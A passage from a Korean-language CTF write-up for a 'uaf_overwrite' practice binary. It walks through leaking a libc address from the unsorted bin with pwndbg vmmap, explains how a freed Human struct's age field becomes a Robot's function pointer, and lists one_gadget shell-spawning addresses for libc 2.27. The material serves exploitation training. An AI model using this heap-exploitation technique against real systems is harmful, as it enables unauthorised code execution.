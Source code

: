 이를 통해 unsorted bin에 연결된 청크의 `fd` 값과 `bk` 값이 모두 `0x7ffff7dcdca0`임을 알 수 있으며, `vmmap` 명령어를 활용하면 `0x7ffff7dcdca0`는 libc 영역에 존재하는 주소임을 알 수 있으며, libc 영역의 베이스를 빼주면 오프셋을 알 수 있다.

```bash
pwndbg> vmmap 0x7ffff7dcdca0
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
             Start                End Perm     Size Offset File
    0x7ffff7dcd000     0x7ffff7dcf000 rw-p     2000 1eb000 /lib/x86_64-linux-gnu/libc-2.27.so +0xca0
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
             Start                End Perm     Size Offset File
    0x555555400000     0x555555402000 r-xp     2000      0 /home/uaf_overwrite/uaf_overwrite
    0x555555601000     0x555555602000 r--p     1000   1000 /home/uaf_overwrite/uaf_overwrite
    0x555555602000     0x555555603000 rw-p     1000   2000 /home/uaf_overwrite/uaf_overwrite
    0x555555603000     0x555555624000 rw-p    21000      0 [heap]
    0x7ffff79e2000     0x7ffff7bc9000 r-xp   1e7000      0 /lib/x86_64-linux-gnu/libc-2.27.so
    0x7ffff7bc9000     0x7ffff7dc9000 ---p   200000 1e7000 /lib/x86_64-linux-gnu/libc-2.27.so
    0x7ffff7dc9000     0x7ffff7dcd000 r--p     4000 1e7000 /lib/x86_64-linux-gnu/libc-2.27.so
    0x7ffff7dcd000     0x7ffff7dcf000 rw-p     2000 1eb000 /lib/x86_64-linux-gnu/libc-2.27.so
    0x7ffff7dcf000     0x7ffff7dd3000 rw-p     4000      0 [anon_7ffff7dcf]
    0x7ffff7dd3000     0x7ffff7dfc000 r-xp    29000      0 /lib/x86_64-linux-gnu/ld-2.27.so
    0x7ffff7fee000     0x7ffff7ff0000 rw-p     2000      0 [anon_7ffff7fee]
    0x7ffff7ff6000     0x7ffff7ffa000 r--p     4000      0 [vvar]
    0x7ffff7ffa000     0x7ffff7ffc000 r-xp     2000      0 [vdso]
    0x7ffff7ffc000     0x7ffff7ffd000 r--p     1000  29000 /lib/x86_64-linux-gnu/ld-2.27.so
    0x7ffff7ffd000     0x7ffff7ffe000 rw-p     1000  2a000 /lib/x86_64-linux-gnu/ld-2.27.so
    0x7ffff7ffe000     0x7ffff7fff000 rw-p     1000      0 [anon_7ffff7ffe]
    0x7ffffffde000     0x7ffffffff000 rw-p    21000      0 [stack]
```

`libc`가 매핑된 주소는 `0x7ffff79e2000`이므로 오프셋은 `0x3ebca0`이다.

## Use After Free

`struct Human`과 `struct Robot`은 같은 크기의 구조체이므로 `struct Human`이 해제되고 `struct Robot`이 할당되면 `struct Robot`은 `struct Human`이 사용했던 메모리 영역을 그대로 사용하게 된다.
게다가 `struct Robot`이 할당될 때 메모리 영역을 초기화하지 않고 있으므로, `struct Human`에서 작성된 값이 그대로 사용되게 된다.
즉, `struct Human`의 `age`에 저장되어 있던 값이 그대로 `struct Robot`의 `fptr`에 저장되어 있게 되며, 따라서 `Human.age`에 one-gadget 주소를 입력하고 이어서 `robot_func`를 호출하면 one-gadget을 호출할 수 있을 것이다.

이제 `one_gadget` 툴을 활용하여 one-gadget의 주소들을 얻어내자.

```bash
$ one_gadget libc-2.27.so
0x4f3ce execve("/bin/sh", rsp+0x40, environ)
constraints:
  address rsp+0x50 is writable
  rsp & 0xf == 0
  rcx == NULL || {rcx, "-c", r12, NULL} is a valid argv

0x4f3d5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  address rsp+0x50 is writable
  rsp & 0xf == 0
  rcx == NULL || {rcx, rax, r12, NULL} is a valid argv

0x4f432 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL || {[rsp+0x40], [rsp+0x48], [rsp+0x50], [rsp+0x58], ...} is a valid argv

0x10a41c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL || {[rsp+0x70], [rsp+0x78], [rsp+0x80], [rsp+0x88], ...} is a valid argv
```
